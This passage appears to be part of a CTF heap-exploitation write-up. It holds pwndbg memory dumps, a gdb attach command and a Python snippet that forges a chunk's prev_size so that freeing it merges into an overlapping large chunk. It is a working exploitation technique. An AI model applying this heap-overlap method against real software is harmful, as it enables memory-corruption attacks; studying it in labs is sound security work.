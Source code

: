 ```
0x228a150:	0x3131313131313131	0x3131313131313131
0x228a160:	0x3131313131313131	0x3131313131313131
0x228a170:	0x3131313131313131	0x3131313131313131
0x228a180:	0x3131313131313131	0x3131313131313131
0x228a190:	0x0000000000000170	0x0000000000000100
0x228a1a0:	0x3232323232323232	0x3232323232323232
0x228a1b0:	0x3232323232323232	0x3232323232323232
0x228a1c0:	0x3232323232323232	0x3232323232323232
0x228a1d0:	0x3232323232323232	0x3232323232323232
0x228a1e0:	0x3232323232323232	0x3232323232323232
0x228a1f0:	0x3232323232323232	0x3232323232323232
0x228a200:	0x3232323232323232	0x3232323232323232
0x228a210:	0x3232323232323232	0x3232323232323232
0x228a220:	0x3232323232323232	0x3232323232323232
0x228a230:	0x3232323232323232	0x3232323232323232
0x228a240:	0x3232323232323232	0x3232323232323232
0x228a250:	0x3232323232323232	0x3232323232323232
0x228a260:	0x3232323232323232	0x3232323232323232
0x228a270:	0x3232323232323232	0x3232323232323232
0x228a280:	0x3232323232323232	0x3232323232323232
0x228a290:	0x0000000000000000	0x0000000000000021
0x228a2a0:	0x3333333333333333	0x3333333333333333
0x228a2b0:	0x0000000000000000	0x0000000000020ce1
0x228a2c0:	0x0000000000000000	0x0000000000000000
```
delete 0, 2, will merge to a large chunk
```python
add(0xf0, '0' * 0xf0)
add(0x68, '1' * 0x68)
add(0xf0, '2' * 0xf0)
add(0x10, '3' * 0x10)

delete(0)
edit(1, 0x68, flat('1' * 0x60, 0x170))
pause()
delete(2)
```
```gdb -q -p `pidof pwn` -ex "b *0x400CDD" -ex "c"```, look fd bk
```
pwndbg> x/90gx 0x14c1000
0x14c1000:	0x0000000000000000	0x0000000000000021
0x14c1010:	0x0000000000400896	0x00000000004008b1
0x14c1020:	0x0000000000000000	0x0000000000000271
0x14c1030:	0x00007f50555b2b78	0x00007f50555b2b78
0x14c1040:	0x3030303030303030	0x3030303030303030
0x14c1050:	0x3030303030303030	0x3030303030303030
0x14c1060:	0x3030303030303030	0x3030303030303030
0x14c1070:	0x3030303030303030	0x3030303030303030
0x14c1080:	0x3030303030303030	0x3030303030303030
0x14c1090:	0x3030303030303030	0x3030303030303030
0x14c10a0:	0x3030303030303030	0x3030303030303030
0x14c10b0:	0x3030303030303030	0x3030303030303030
0x14c10c0:	0x3030303030303030	0x3030303030303030
0x14c10d0:	0x3030303030303030	0x3030303030303030
0x14c10e0:	0x3030303030303030	0x3030303030303030
0x14c10f0:	0x3030303030303030	0x3030303030303030
0x14c1100:	0x3030303030303030	0x3030303030303030
0x14c1110:	0x3030303030303030	0x3030303030303030
0x14c1120:	0x0000000000000100	0x0000000000000070
0x14c1130:	0x3131313131313131	0x3131313131313131
0x14c1140:	0x3131313131313131	0x3131313131313131
0x14c1150:	0x3131313131313131	0x3131313131313131
0x14c1160:	0x3131313131313131	0x3131313131313131
0x14c1170:	0x3131313131313131	0x3131313131313131
